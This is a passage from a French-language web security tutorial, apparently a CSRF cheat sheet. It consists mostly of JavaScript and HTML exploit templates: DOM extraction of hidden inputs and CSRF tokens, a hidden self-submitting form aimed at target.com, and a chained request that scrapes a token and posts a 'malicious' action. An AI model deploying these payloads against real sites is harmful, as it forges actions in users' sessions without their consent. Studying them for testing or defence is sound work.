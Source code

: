 #### Extraction de DOM

```javascript
// Extraction de valeurs cachées
var hiddenInputs = document.querySelectorAll('input[type="hidden"]');
hiddenInputs.forEach(input => console.log(input.name, input.value));

// Extraction de tokens spécifiques
var csrfToken = document.querySelector('meta[name="csrf-token"]').getAttribute('content');
```

### 🚀 Patterns d'Exploitation Avancés

#### Auto-Submit avec Délai

```html
<form id="csrfForm" action="http://target.com/action" method="post" style="display:none">
    <!-- inputs cachés -->
</form>
<script>
// Attendre le chargement complet
window.onload = function() {
    setTimeout(() => {
        document.getElementById('csrfForm').submit();
    }, 2000); // Délai de 2 secondes
};
</script>
```

#### Chain Attack (Token + Action)

```javascript
// Étape 1: Récupérer le token
fetch('/profile')
    .then(response => response.text())
    .then(html => {
        // Étape 2: Extraire le token
        var token = html.match(/csrf_token" value="([^"]+)"/)[1];
        
        // Étape 3: Effectuer l'action avec le token
        var formData = new FormData();
        formData.append('csrf_token', token);
        formData.append('action', 'malicious');
        
        return fetch('/sensitive-action', {
            method: 'POST',
            body: formData
        });
    })
    .then(() => console.log('Attack completed'));
```

### ⚡ Points Clés à Retenir
